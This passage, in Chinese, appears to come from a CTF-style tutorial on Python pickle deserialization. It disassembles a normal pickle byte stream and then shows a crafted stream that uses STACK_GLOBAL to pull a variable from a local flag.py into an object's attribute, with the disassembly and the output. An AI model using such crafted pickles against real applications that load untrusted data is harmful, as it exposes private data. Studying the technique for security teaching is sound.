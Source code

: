 确实没法命令执行，但是可以获取其他文件信息。
一串正常的反序列化字节流：
```text-plain
b'\x80\x04\x95#\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x8c\x04demo\x93)\x81}\x8c\x04name\x8c\x04testsb.'
0: \x80 PROTO      4
2: \x95 FRAME      35
11: \x8c SHORT_BINUNICODE '__main__'
21: \x8c SHORT_BINUNICODE 'demo'
27: \x93 STACK_GLOBAL
28: )    EMPTY_TUPLE
29: \x81 NEWOBJ
30: }    EMPTY_DICT
31: \x8c SHORT_BINUNICODE 'name'
37: \x8c SHORT_BINUNICODE 'test'
43: s    SETITEM
44: b    BUILD
45: .    STOP
```

利用方法：
在目录中添加文件flag.py，文件内容：`flag="{wosiflag}"`
修改反序列化数据：
```python
evaldata=b'\x80\x04\x95#\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x8c\x04demo\x93)\x81}\x8c\x04name\x8c\x04flag\x8c\x04flag\x93sb.'
pickletools.dis(evaldata)
obj = pickle.loads(evaldata)
print(obj.name)
```

输出：
```text-plain
    0: \x80 PROTO      4
    2: \x95 FRAME      35
   11: \x8c SHORT_BINUNICODE '__main__'
   21: \x8c SHORT_BINUNICODE 'demo'
   27: \x93 STACK_GLOBAL
   28: )    EMPTY_TUPLE
   29: \x81 NEWOBJ
   30: }    EMPTY_DICT
   31: \x8c SHORT_BINUNICODE 'name'
   37: \x8c SHORT_BINUNICODE 'flag'
   43: \x8c SHORT_BINUNICODE 'flag'
   49: \x93 STACK_GLOBAL
   50: s    SETITEM
   51: b    BUILD
   52: .    STOP
highest protocol among opcodes = 4
{wosiflag}
```

实现效果：name=flag.flag
